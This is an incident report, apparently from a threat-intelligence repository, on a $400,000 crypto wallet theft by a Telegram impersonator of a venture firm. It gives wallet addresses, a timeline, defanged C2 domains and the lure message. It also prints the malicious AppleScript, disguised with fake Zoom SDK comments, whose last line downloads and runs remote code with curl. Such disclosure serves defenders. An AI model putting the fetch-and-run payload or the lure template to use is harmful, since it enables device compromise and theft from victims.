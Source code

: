 # Theft from Individual C4

Date: June 28th, 2024

Time:: 06:19

Amount Stolen: $400,000

Tags: 🔑 SquidSquad

---

## Details

Contacted by Telegram account impersonating VC.

jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



## Onchain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1 - Theft

- 0x47aac2e0d93baf0e5b0cd66032041f5f02af7945 - Theft/Consolidation (Moves July 18, 2023)
  
- 0x7527690cdc36e3180197d9b65d6bb86101b27718 - eXch Depo
- 0x8d04169c64a4f083154cfe1e7c4f84073489f584 - eXch Depo
- 0x7ea5c7e866bbee6535b33c30ba4b5eab3506cfdf - eXch Depo
- 0xc14857054571ca848d30b3be832434a31cba267c - eXch Depo
- 0x25796e53bd64c4a922d9b004d9806be211d01ed1 - eXch Depo
- 0x1a4885b76a88fc8c7ad667944129fccacefd2ed6 - eXch Depo
- 0x7d577a5ca50ecf947900eab06943da4d003e19a1 - eXch Depo
- 0x9258d93045a2974874178001adc1f2b9b6a6e975 - eXch Depo


## Timeline

- 2024-Jun-28 06:19 - Theft
- 2024-Jul-18 00:38 - Consolidation
- 2024-Jul-23 01:16 - Laundry 
- 2024-Aug-26 00:50 - Laundry 


## Connections

- C7 Theft


## Further Reading

- https://twitter.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon


## Malicious Script

############################################################### 
#                     
# 
# 🎦 Meeting SDK                 
# 
#                     
# # Embed the Zoom meeting and webinar experience in an app or website.     
# 
#                     
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom   
# #  client, except that it lives inside your own app or website.        
# 
#                     
# # Enhance the users' experience              
# 
#                                
# 
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the   
# 
#  Zoom client, and a custom UI, which offers the ability to completely customize the   
# 
#   user interface.                 
# 
#                     
# 
#   The web SDK offers a client view, which looks similar to the Zoom client, and a    
# 
#   modular component view, which displays the Meeting SDK in components on your   
# 
#   website.                  
# 
#                     
# # Meeting and webinar authorization             
# 
#                      
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  
# #  behalf of other users using a ZAK (Zoom Access Key) token.        
# 
#                     
# 
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   
# 
#                     
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  
# #  to connect their accounts to your Meeting SDK.          
# 
#                         
# 
#                     
# 
##############################################################
#   
#  Start meeting using ZAK(Zoom Access Key)token.  
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc



## C2s

- support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.




## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online


![](../images/2024-07-01_SQSQ_7xv_1.jpg)

![](../images/2024-07-01_SQSQ_7xv_2.jpg)

![](../images/2024-07-01_SQSQ_7xv_3.jpg)



